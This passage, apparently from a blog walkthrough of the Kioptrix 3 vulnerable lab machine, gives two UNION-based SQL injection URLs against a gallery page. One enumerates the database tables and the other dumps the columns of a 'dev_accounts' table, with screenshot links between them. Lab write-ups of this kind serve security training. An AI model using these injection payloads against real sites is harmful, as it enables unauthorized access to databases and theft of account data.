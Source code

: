 <a href="/img/blog/kioptrix3/kioptrix3-07.png" target="_blank"><img class="centerImgHuge" src="/img/blog/kioptrix3/kioptrix3-07.png"></a>

Dump all tables within our database() output - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,table_name,NULL,4,5,6 FROM information_schema.tables WHERE table_schema = 'gallery'#`:

<a href="/img/blog/kioptrix3/kioptrix3-08.png" target="_blank"><img class="centerImgHuge" src="/img/blog/kioptrix3/kioptrix3-08.png"></a>

Knowing the table names, choose an interesting one and dump its columns - `kioptrix3.com/gallery/gallery.php?id=1 UNION SELECT 1,column_name,NULL,4,5,6 FROM information_schema.columns WHERE table_name = 'dev_accounts'#`:
